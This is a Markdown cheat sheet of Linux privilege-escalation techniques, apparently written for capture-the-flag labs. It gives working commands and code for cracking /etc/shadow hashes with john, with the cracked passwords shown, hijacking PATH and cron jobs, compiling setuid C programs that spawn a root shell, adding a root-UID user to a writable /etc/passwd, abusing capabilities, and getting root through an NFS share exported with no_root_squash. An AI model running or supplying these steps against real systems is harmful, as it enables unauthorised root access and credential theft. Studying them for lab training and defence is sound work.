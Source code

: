 # Linux

## Methodology

- Scripts
LinEnum - [Link](https://github.com/rebootuser/LinEnum)
LinpPeas - [Link](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

- sudo -l

Take a look at the variables like **LD_PRELOAD**
Take a look which commands you can run as sudo

```console
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl   
```



## Unshadow Passwd & Shadow

You need to download 2 files. /etc/passwd & /etc/shadow

```console
$ unshadow <passwd> <shadow> > hashes.txt
```

Then crack it with john

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt new.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:13 DONE (2022-02-19 19:18) 0.2155g/s 1268p/s 1783c/s 1783C/s 111292..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Cron

read cron jobs with `/etc/crontab`

For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature

Be sure the file has `chmod +x`
## Environment var

Show PATH var
```console
echo $PATH
```

Add direcotry to PATH var
```console
export PATH=/tmp:$PATH
```

Find writeble folders
```console
$ find / -writable 2>/dev/null |cut -d "/" -f 2 | sort -u
```

```console
#!/bin/bash
/bin/bash
```
Set chmod 777

```c
#Spawn Bash C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
}
```
set chmod x+s

## SUID

Compare executables with [GTFOBins](https://gtfobins.github.io/)

Find SUID files:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

## Writeble files

**/etc/passwd**

Format: `test:x:0:0:root:/root:/bin/bash`

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

```console
New entry
$ new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## Capabilities

Find capabilities:

```console
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Look at [GTFOBins](https://gtfobins.github.io/) for leverage

## NFS

Check /etc/exports for "no_root_squash":
```console
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Look for mountable shares:
```console
$ showmount -e 10.10.193.66
Export list for 10.10.193.66:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Mount one shared dir with "no_root_squash":
```console
$ mkdir /tmp/shared
$ sudo mount -o rw 10.10.193.66:/home/backup /tmp/shared/
```

Create file inside shared:
```c
int main(){
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
```
Compile the code:
```console
$ gcc root.c -o nfs -w

#ls -la
total 28
drw-r--r-- 2 root root  4096 20. Feb 12:26 .
drwxrwxrwt 1 root root   822 20. Feb 12:26 ..
-rwxr-xr-x 1 root root 16712 20. Feb 12:26 nfs
-rw-r--r-- 1 root root    71 20. Feb 12:26 root.c

```

